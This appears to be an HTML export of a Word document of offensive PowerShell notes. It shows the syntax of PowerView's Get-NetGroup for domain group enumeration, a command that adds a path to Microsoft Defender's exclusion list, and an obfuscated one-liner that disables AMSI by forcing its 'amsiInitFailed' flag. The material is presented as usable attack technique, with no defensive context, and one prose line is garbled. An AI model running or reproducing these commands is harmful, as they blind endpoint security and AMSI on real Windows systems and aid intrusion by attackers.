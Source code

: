 <p class=MsoNormal><span style='mso-spacerun:yes'>    </span>Get-<span
class=SpellE>NetGroup</span> [[-<span class=SpellE>GroupName</span>]
&lt;String&gt;] [[-SID] &lt;String&gt;] [[-<span class=SpellE>UserName</span>]
&lt;String&gt;] [[-Filter] &lt;String&gt;] [[-Domain] &lt;String&gt;]<o:p></o:p></p>

<p class=MsoNormal><span style='mso-spacerun:yes'>    </span>[[-<span
class=SpellE>DomainController</span>] &lt;String&gt;] [[-<span class=SpellE>ADSpath</span>]
&lt;String&gt;] [-<span class=SpellE>AdminCount</span>] [-<span class=SpellE>FullData</span>]
[-<span class=SpellE>RawSids</span>] [-<span class=SpellE>AllTypes</span>] [[-<span
class=SpellE>PageSize</span>]<o:p></o:p></p>

<p class=MsoNormal><span style='mso-spacerun:yes'>    </span>&lt;Int32&gt;]
[[-Credential] &lt;<span class=SpellE>PSCredential</span>&gt;] [&lt;<span
class=SpellE>CommonParameters</span>&gt;]<o:p></o:p></p>

<p class=MsoNormal>&nbsp;<o:p></o:p></p>

<p class=MsoNormal><b>Exclusion adding for specific path</b><o:p></o:p></p>

<p class=MsoNormal>&nbsp;<o:p></o:p></p>

<p class=MsoNormal>The local enhanced login and system word prescription and <span
class=SpellE>amsi</span> and script block logging.<o:p></o:p></p>

<p class=MsoNormal>&nbsp;<o:p></o:p></p>

<p class=MsoNormal><span style='mso-no-proof:yes'><![if !vml]><img width=948 height=360
src="test_files/image001.png"
alt="A screenshot of a computer&#10;&#10;Description automatically generated"
v:shapes="Picture_x0020_100"><![endif]></span><o:p></o:p></p>

<p class=MsoNormal>&nbsp;<o:p></o:p></p>

<p class=MsoNormal><span class=SpellE>powershell</span> -<span class=SpellE>inputformat</span>
none -<span class=SpellE>outputformat</span> none -<span class=SpellE>NonInteractive</span>
-Command &quot;Add-<span class=SpellE>MpPreference</span> -<span class=SpellE>ExclusionPath</span>
'C:\AD'&quot;<o:p></o:p></p>

<p class=MsoNormal>&nbsp;<o:p></o:p></p>

<p class=MsoNormal><span class=SpellE>sET-ItEM</span> ( 'V'+'<span
class=SpellE>aR</span>' + 'IA' + 'blE:1q2' + '<span class=SpellE>uZx</span>' )
( [<span class=SpellE>TYpE</span>]( &quot;{1}{0}&quot;-F'F','<span
class=SpellE>rE</span>' ) ) ; ( <span class=SpellE>GeT-VariaBle</span> (
&quot;1Q2U&quot; +&quot;<span class=SpellE>zX</span>&quot; ) -<span
class=SpellE>VaL</span> ).&quot;A`ss`Embly&quot;.&quot;<span class=SpellE>GET`TY`Pe</span>&quot;((
&quot;{6}{3}{1}{4}{2}{0}{5}&quot; -f'Util','A','Amsi','.Management.','<span
class=SpellE>utomation</span>.','<span class=SpellE>s','System</span>' )
).&quot;<span class=SpellE>g`etf`iElD</span>&quot;( ( &quot;{0}{2}{1}&quot; -f'<span
class=SpellE>amsi</span>','d','<span class=SpellE>InitFaile</span>' ),(
&quot;{2}{4}{0}{1}{3}&quot; -f 'Stat','<span class=SpellE>i</span>','<span
class=SpellE>NonPubli</span>','<span class=SpellE>c','c</span>,' )).&quot;<span
class=SpellE>sE`T`VaLUE</span>&quot;( ${<span class=SpellE>n`ULl</span>},${<span
class=SpellE>t`RuE</span>} )<o:p></o:p></p>

<p class=MsoNormal>&nbsp;<o:p></o:p></p>
